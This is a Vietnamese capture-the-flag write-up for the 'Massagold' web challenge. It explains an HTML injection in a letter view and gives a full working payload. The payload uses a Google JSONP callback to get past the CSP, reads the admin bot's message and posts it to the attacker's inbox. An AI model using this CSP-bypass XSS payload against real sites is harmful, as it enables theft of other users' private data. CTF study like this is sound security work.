

# Massagold

Bài này có dạng gửi thư và admin có bot. Mục tiêu là lợi dụng bot mở thư để đọc message

### 1. Phân tích

Nội dung thư được render raw ở `message.ejs`:

```
<pre class="letter-copy"><%- message.content %></pre>
```

=> HTML Injection

Bot ở `bot.js` có nhiệm vụ sau:

- Đọc credential admin
- Login admin
- mở `/messages/:id`

Flag được đặt trong `entrypoint.js`



**CSP**: Trong `server.js`:

```HTTP
default-src 'self'
script-src 'self' https://www.googleapis.com
style-src 'self'
img-src 'self' data:
font-src 'self' data:
connect-src 'self'
object-src 'none'
form-action 'self'
frame-ancestors 'none'
```

Ý nghĩa:

- Payload như `` từ **www.googleapis.com**
- Lợi dụng JSONP callback để chạy JS****
- Đọc message của admin vìnhà gửi lại về inbox của mình

### Payload:

- Đóng `</pre>`
- Chèn `<script src=..>` tới Google JSONP
- Trong callback:

  - fetch('/messages/1')
  - parse HTML
  - lấy **.letter-copy**
  - POST /messages gửi nội dung về username của mình
- Mở lại `<pre>`

```HTML
</pre><script src="https://www.googleapis.com/customsearch/v1?callback=fetch(%60%2Fmessages%2F1%60).then(function(r)%7Breturn%20r.text()%7D).then(function(t)%7Bvar%20d%3Dnew%20DOMParser().parseFromString(t%2C%60text%2Fhtml%60)%3Bvar%20x%3Dd.querySelector(%60.letter-copy%60)%3Bfetch(%60%2Fmessages%60%2C%7Bmethod%3A%60POST%60%2Cheaders%3A%7B%5B%60Content-Type%60%5D%3A%60application%2Fx-www-form-urlencoded%60%7D%2Cbody%3A%60to_username%3DYOURUSER%26content%3D%60%2BencodeURIComponent(x%3Fx.innerText%3A%60no%20content%60)%7D)%7D)%2Calert"></script><pre>
```

```
